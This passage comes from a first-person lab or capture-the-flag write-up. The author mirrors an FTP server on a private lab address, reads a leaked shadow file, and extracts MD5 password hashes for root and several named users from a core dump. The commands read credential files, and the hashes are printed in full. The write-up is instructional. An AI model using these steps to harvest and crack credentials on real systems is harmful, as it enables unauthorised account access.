 I thought that if it were a real shadow file, then I'd be able to crack some user accounts. I decided to download the contents of the FTP server so I could examine all the directories and files properly:

```
root@tantras# wget -rq ftp://192.168.1.110
root@tantras# ls
192.168.1.110
```

Now that I had mirrored the FTP server, I decided to take a closer look at the shadow file:

```
root@tantras# cat shadow 
root:$1$3OF/pWTC$lvhdyl86pAEQcrvepWqpu.:12859:0:::::
bin:*:9797:0:::::
daemon:*:9797:0:::::
adm:*:9797:0:::::
lp:*:9797:0:::::
sync:*:9797:0:::::
shutdown:*:9797:0:::::
halt:*:9797:0:::::
mail:*:9797:0:::::
news:*:9797:0:::::
uucp:*:9797:0:::::
operator:*:9797:0:::::
games:*:9797:0:::::
ftp:*:9797:0:::::
smmsp:*:9797:0:::::
mysql:*:9797:0:::::
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
nobody:*:9797:0:::::
```

Only the root account was listed in there, so no encrypted passwords for the system administrators. In the previous challenge, root was not allowed to SSH into the server. I assumed it would be the same for this challenge, which meant cracking the root password now might not benefit me that much until I could actually log into the server.

I took another look at the contents of the etc directory and noticed a core file. This is typically a core dump, which meant it probably held some juicy bits of information. I fired up strings and paged through the contents of the dump. I found the interesting bits at the very end of the file:

```
.gnu.version
.gnu.version_d
.text
.note
.eh_frame_hdr
.eh_frame
.dynamic
.useless
root:$1$aQo/FOTu$rriwTq.pGmN3OhFe75yd30:13574:0:::::
bin:*:9797:0:::::daemon:*:9797:0:::::adm:*:9797:0:::
::lp:*:9797:0:::::sync:*:9797:0:::::shutdown:*:9797:
0:::::halt:*:9797:0:::::mail:*:9797:0:::::news:*:979
7:0:::::uucp:*:9797:0:::::operator:*:9797:0:::::game
s:*:9797:0:::::ftp:*:9797:0:::::smmsp:*:9797:0:::::m
ysql:*:9797:0:::::rpc:*:9797:0:::::sshd:*:9797:0::::
:gdm:*:9797:0:::::pop:*:9797:0:::::nobody:*:9797:0::
:::aadams:$1$klZ09iws$fQDiqXfQXBErilgdRyogn.:13570:0
:99999:7:::bbanter:$1$1wY0b2Bt$Q6cLev2TG9eH9iIaTuFKy
1:13571:0:99999:7:::ccoffee:$1$6yf/SuEu$EZ1TWxFMHE0p
DXCCMQu70/:13574:0:99999:7:::
```
